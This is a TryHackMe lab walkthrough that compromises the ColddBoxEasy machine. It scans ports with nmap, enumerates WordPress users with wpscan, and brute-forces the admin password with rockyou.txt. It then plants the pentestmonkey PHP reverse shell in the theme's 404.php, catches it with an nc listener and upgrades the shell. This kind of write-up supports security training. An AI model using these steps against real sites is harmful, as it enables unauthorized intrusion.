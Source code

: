 # ColddBoxEasy TryHackme Walkthrough

![]/images/bakcground.PNG

As usual we start with nmap to know the open ports of the machine

We can use this command to accelerate the results of nmap scan

`nmap  -p- -T5 -n -Pn --open --min rate 5000 -vvv <ip-address>`

![](images/nmap1.png)

Looks like port 80 and port 4512 are opened so with this information now we can proceed to scan the services running in these ports

![](images/nmap2.png)

Port 80 is running Wordpress so we can run wpscan to get more information about the server

This options enumerate all the information available in the box.

`wpscan --url http://<ip/address>`

![](images/wpscan1.png)

No plugins were found, but we got an outdated theme that maybe could be exploitable. Making a search in Google looks like this theme is vulnerable to DOM-based XSS https://blog.sucuri.net/2015/05/jetpack-and-twentyfifteen-vulnerable-to-dom-based-xss.html However requires some social engeneering and could be hard to exploit.

![](images/wpscan2.png)

No backups files were found during the scan.

![](images/wpscan3.png)

Wordpress also has an option to enumerate users, we can try to dump some information related to users using 

`wpscan --url <ip-address> --enumerate u`

![](images/users.png)

Inspecting with the URL in port 80 we can see the main page of the Wordpress site. Here we can verify that user **c0ldd** exists.

![](images/main_page.png)

Also there is a comment from **Sr Hott** but no more information related to the machine.

![](images/comment.png)

The admin panel is in `<ip-address>/wp-admin`. We can try to brute force the password with the users we got from the previous scan. For this task we can use hydra or Wpscan.
Wpscan also have an option to brute force the admin panel so we will stick with it.

`wpscan --url <ip-address> --usernames c0ldd --passwords /usr/share/wordlists/rockyou.txt`

![](images/wpscred.png)

The user **c0ldd** uses a common and insecure password, with this credentials now we can access to the admin panel.

![](images/dashboard.png)

Wordpress uses PHP files with that in mind, we can setup a PHP reverse shell. The first step is to look for Appearence tab then click Editor and finally select 404.php Template.
Here we can modify the content of 404.php file and replace it with the reverse shell. 

We can copy the php-reverse-shell.php from https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php. Don't forget to modify the **IP** and **port** before saving the file.

![](images/revshell1.png)

Setup a nc listener in our Kali machine

`nc -lvnp 1234`

The path of the **twenty fifteen** theme was /wp-content/themes/twentyfifteen/ in order to execute our reverse shell we must add the 404.php to the path.

`<ip-address>/wp-content/themes/twentyfifteen/404.php`

Now we got a shell. Let's upgrade with the following commands

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo; fg
export TERM=xterm
```

user.txt flag is in /home/c0ldd directory but we don't have permissions as user **www-data**

![](images/failuser.png)





